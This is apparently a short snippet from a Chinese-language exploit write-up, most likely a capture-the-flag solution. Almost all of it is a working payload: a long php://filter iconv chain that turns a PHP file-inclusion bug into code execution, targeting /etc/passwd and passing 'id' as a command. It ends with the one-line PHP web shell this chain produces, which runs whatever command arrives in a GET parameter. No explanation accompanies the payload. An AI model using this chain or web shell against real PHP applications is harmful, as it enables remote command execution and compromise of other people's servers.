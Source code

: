 ```
php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd&0=id
```

即可包含一个`shell`:

```
<?=`$_GET[0]`;;?>
```
